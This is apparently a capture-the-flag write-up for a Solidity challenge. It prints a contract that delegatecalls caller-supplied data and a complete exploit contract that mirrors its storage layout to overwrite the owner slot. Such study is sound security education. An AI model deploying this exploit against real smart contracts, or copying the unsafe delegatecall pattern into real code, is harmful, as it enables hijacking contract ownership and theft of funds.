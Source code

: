 # d31eg4t3

## Challenge

We receive one contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract D31eg4t3{
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;

    modifier onlyOwner{
        require(false, "Not a Owner");
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }


    function hacked() public onlyOwner{
        canYouHackMe[msg.sender] = true;
    }
}
```

## Solution

The issue we have here is the handling of storage during a delegate call. The hackMe() function delegates whatever calldata we have back to us. As delegatecall uses the callers storage in the functions of the callee, we can just write a function in our contract that overwrites owner with our address. If we copy the storage layout of the target, this is super easy. I just wrote a simple exploit contract for this:

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "./Target.sol";

contract attack {
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    D31eg4t3 target_contract;

    constructor(address target_addr)
    {
        target_contract = D31eg4t3(target_addr);
    }

    function attack_fun() public 
    {
        target_contract.hackMe(abi.encodeWithSelector(this.overwrite.selector));
    }

    function overwrite() public
    {
        owner = 0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2;
    }
}
```